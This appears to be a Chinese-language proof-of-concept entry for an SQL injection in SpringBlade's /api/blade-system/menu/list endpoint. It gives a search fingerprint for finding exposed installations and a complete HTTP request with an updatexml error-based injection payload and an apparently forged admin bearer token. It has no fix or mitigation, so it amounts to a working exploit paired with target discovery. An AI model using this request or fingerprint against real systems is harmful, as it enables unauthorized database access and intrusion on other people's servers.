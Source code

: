 # SpringBlade menu/list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade menu/list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注 入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/NmezmB28oxn8h0Aq/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-536775.png)

# 四、漏洞复现
```java
GET /api/blade-system/menu/list?updatexml(1,concat(0x7e,md5(1),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent:Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:122.0) Gecko/20100101 Firefox/122.0
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
Connection: close
```

![1722875246289-eb2f34cb-92d8-49de-a81b-3479b1c8353a.png](./img/NmezmB28oxn8h0Aq/1722875246289-eb2f34cb-92d8-49de-a81b-3479b1c8353a-514494.png)



> 更新: 2024-12-13 17:10:56  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xz7mg8lxlbnt5kp0>
